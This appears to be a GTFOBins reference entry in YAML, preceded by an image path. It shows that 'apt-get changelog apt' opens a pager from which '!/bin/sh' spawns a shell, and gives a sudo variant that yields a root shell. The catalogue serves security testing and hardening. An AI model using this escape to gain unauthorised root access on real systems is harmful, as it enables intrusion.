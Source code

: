 ```yaml
---
description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  execute-interactive:
    - code: |
        apt-get changelog apt
        !/bin/sh
  sudo-enabled:
    - code: |
        sudo apt-get changelog apt
        !/bin/sh
---
```

